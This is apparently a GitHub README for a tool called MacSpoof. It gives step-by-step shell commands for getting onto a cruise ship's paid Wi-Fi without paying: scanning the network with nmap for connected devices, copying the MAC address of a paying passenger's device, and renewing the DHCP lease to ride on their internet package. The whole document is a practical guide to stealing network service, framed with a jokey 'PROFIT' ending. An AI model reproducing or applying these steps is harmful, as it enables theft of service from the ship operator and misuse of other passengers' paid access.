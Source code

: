 MacSpoof
========

Utilizes nmap, dhclient, and wpa_supplicant


========

Chances are that aboard a cruise ship with a maximum capacity of 5,000+ people, a few dozen will have already purchased an internet package. What we want to do is spoof our computer’s MAC Address to match that of those computers who are already connected to the network. If a computer is logged in and has access to the internet, any computer with the same MAC Address will have access to the internet as well. This means we can "piggy-back" on someone else's package. AND, if they only paid for one device, it won't kick them off. 

We assume several things here. First, that the computer has gotten past the login page. It is highly likely that someone won’t just be staring at the login page while connected to the network for more than 5 minutes. Second, that the router will actually give us an IP address. This is important, without an IP address we won't be able to connect. Third, the router will let us connect. There are thousands of access points aboard the ship. If we fail to connect successfully with a particular BSSID, we must try another one. Luckily, wpa_supplicant does this automatically. 


Install the following packages:

* nmap
* wpa_supplicant      (default)
* ip link or ifconfig (default)

Requirements:
* Linux
* Wireless interface


1. Connect to the network. Make sure you do this via **wpa_supplicant**. It will make reassociating with the network easier when you change your MAC Address and request an IP from a router. 
NOTE: On Ubuntu, network-manager runs in the background. It needs to be disabled while **wpa_supplicant** is running! 

        sudo stop network-manager
        sudo wpa_supplicant -D nl08211 -i wlan0 -c /etc/wpa_supplicant/wpa_supplicant.conf`

2. Scan the network for connected devices. We want the MAC Addresses. You must run nmap as sudo. Otherwise you will not get any MAC Addresses. We will scan the entire subnet from 172.27.20.0 to 172.27.20.255. Your IP range depends on the IP address given to you when you first connected to the network. This will let you know which node you have connected to. /<numbits> are the same as the reference IP or hostname given. There are 32 bits in an IPv4 address. We keep 24 fixed, the last 8 bits are variable. 

        sudo nmap -sP 172.27.20.0/24

3. nmap should produce an output similar to this:

        Nmap scan report for WiMaxCPE (192.168.15.1)
        Host is up (0.0024s latency).
        MAC Address: 00:1D:88:30:71:8D (Clearwire)
        Nmap scan report for ThinkPad-W530 (192.168.15.253)
        MAC Address: 00:1D:88:30:64:1D (ThinkPad) 
        Host is up.
        ...

4. Spoof your MAC Address

        sudo ifconfig wlan0 down hw ether 00:1D:88:30:64:1D
        sudo ifconfig wlan0 up

5. Obtain a DHCP lease from the router. The router will give you an IP address upon success. Then you are all set!
        sudo dhclient -r
        sudo dhclient -v wlan0

6. Visit any webpage. You should not be redirected to a login page if owner of the MAC Address has paid for internet. 

7. ???

8. PROFIT





